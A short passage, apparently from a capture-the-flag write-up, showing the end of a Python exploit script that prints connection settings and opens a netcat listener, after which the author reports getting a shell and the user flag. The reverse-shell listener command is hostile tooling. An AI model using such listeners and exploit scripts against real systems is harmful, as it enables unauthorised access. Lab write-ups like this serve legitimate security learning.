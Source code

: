 ```python
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
print("\nListening for connection...")
os.system(f'nc -nlvp {lport}')
```

It seems this one starts a listener for us. I had to run it with root permissions to get it to bind to port 413 - but then I got a shell!

![[Pasted image 20210613114847.png]]

And grabbed `user.txt.txt`:

![[Pasted image 20210613115128.png]]